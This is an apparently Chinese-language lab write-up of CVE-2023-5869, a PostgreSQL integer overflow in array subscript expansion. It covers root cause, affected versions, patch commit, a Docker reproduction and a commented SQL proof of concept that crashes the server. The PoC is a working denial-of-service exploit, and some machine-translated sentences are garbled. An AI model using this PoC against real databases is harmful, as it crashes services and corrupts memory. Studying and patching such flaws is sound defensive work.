



# CVE-2023-5869 CWE-190 PostgreSQL DoS

## 漏洞背景

- **PostgreSQL：**PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- 

## 漏洞原理

 PostgreSQL 在处理数组下标扩容与切片赋值时，内部使用 32 位整数计算新维度与边界，却缺乏溢出检查；攻击者若构造极端下标（如从 `INT32_MIN` 扩展到 `INT32_MAX`），会导致整数环绕，进而使数组分配的内存空间小于实际写入所需空间，产生越界写/读，既可能触发数据库进程崩溃（DoS），也可能被利用为任意代码执行（RCE）。

## 漏洞定位


漏洞位于 `src/backend/utils/adt/arrayfuncs.c` 中的三个数组扩展路径：`array_set_element()`、`array_set_element_expanded()` 和 `array_set_slice()`。受影响版本直接使用有符号 32 位 `int` 计算新下标前后的扩展量及新尺寸，却没有检查减法、增量或各维度乘积是否溢出。

```c
if (indx[0] < lb[0])
{
    addedbefore = lb[0] - indx[0];
    dim[0] += addedbefore;
}
if (indx[0] >= (dim[0] + lb[0]))
{
    addedafter = indx[0] - (dim[0] + lb[0]) + 1;
    dim[0] += addedafter;
}
```

极端下标可导致 `lb - indx`， `indx - (dim + lb) + 1`,或 `dim += added*` 来循环,然后数组大小/抵消计算使用不正确的尺寸,导致出界访问或处理崩溃。 使用 `pg_sub_s32_overflow()`/`pg_add_s32_overflow()` 检查每个步骤并拒绝无效的数组大小 `ERRCODE_PROGRAM_LIMIT_EXCEEDED`。

## 漏洞修复


升级到 PostgreSQL  11.22， 12.17， 13.13， 14.10， 15.5， 16.1,或后来。 提交 `18b585155a891784ca8985f595ebc0dde94e0d43` 替换未选中的签名算术 `array_set_element()`， `array_set_element_expanded()`,以及 `array_set_slice()` 与 `pg_add_s32_overflow()`/`pg_sub_s32_overflow()` 检查和加薪 `ERRCODE_PROGRAM_LIMIT_EXCEEDED` 在无效的维度到达分配或复制之前。

升级前， 防止不信任 SQL 用户从分配到带有任意极端下标的数组元素或片段,并验证应用程序代码中的数组索引。 资源限制可以包含崩溃,但不能防止处理查询的后端内存腐败。

## 影响范围


** 受影响的版本:** PostgreSQL：

- 11.0  改为 11.21
- 12.0 改为 12.16 
- 13.0 改为 13.12
- 14.0 改为 14.9
- 15.0 改为 15.4
- 16.0

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 16.0，管理员为 postgres，密码为 postgres，已存在数据库 test。

```txt
CNA:Red Hat, Inc.    Base Score:8.8 HIGH    Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:postgresql:postgresql:16.0:*:*:*:*:*:*:*
```



## 漏洞复现

1. 运行 PoC 代码后，在 Step 5 后服务器断开连接并退出

   ```bash
   docker exec -it postgres-16.0 psql -U postgres -d test -f CVE-2023-5869-PoC.sql
   ```

   

2. 查看容器日志，可以看到出现了 signal 6 断言失败，在 expanded-array 的内存上下文里发生了内存破坏，导致服务端崩溃（内存破坏，`HdrMaskCheckMagic` 断言失败）

   ```bash
   docker logs postgres-16.0 
   ```

   

## PoC分析

```sql
-- 建一个临时表，f1 为 int[]
create temp table arr_pk_tbl (pk int4 primary key, f1 int[]);

-- 往 f1 写入带自定义边界的数组文字
-- 下界 = -2147483648 (INT32_MIN)，上界 = -2147483647
-- 这让数组的逻辑坐标系从极端负值开始，后续再写入一个极端正下标，会迫使数组在计算“需要扩到多大”时做巨大跨度的加/减法。
insert into arr_pk_tbl values(10, '[-2147483648:-2147483647]={1,2}');
update arr_pk_tbl set f1[2147483647] = 42 where pk = 10;
update arr_pk_tbl set f1[2147483646:2147483647] = array[4,2] where pk = 10;

-- 对 f1 的 第 2147483647 (INT32_MAX) 个位置赋值，由于当前数组的上界仅到 -2147483647，这次写入会触发 向后扩容
-- 在扩容过程中缺少溢出保护，会发生越界内存写
do $$ declare a int[];
begin
  a := '[-2147483648:-2147483647]={1,2}'::int[];
  a[2147483647] := 42;
end $$;
```

通过构造极端数组下标并在修改（写入）时触发 数组扩容，让 PostgreSQL 在计算新数组的维度/边界时发生有符号 32 位整数溢出，从而走到分配尺寸与真实写入不匹配的危险路径，最终导致越界写/读，在部分路径（expanded array）下可见为进程崩溃（SIGABRT）

## 参考链接


[NVD - CVE-2023-5869](https://nvd.nist.gov/vuln/detail/CVE-2023-5869)

[Detect integer overflow while computing new array dimensions. · postgres/postgres@18b5851](https://github.com/postgres/postgres/commit/18b585155a891784ca8985f595ebc0dde94e0d43#diff-73c0941c4c45f6882b52b02c3ca1e9e7fca06706f0cb033bb125a55c389de266)
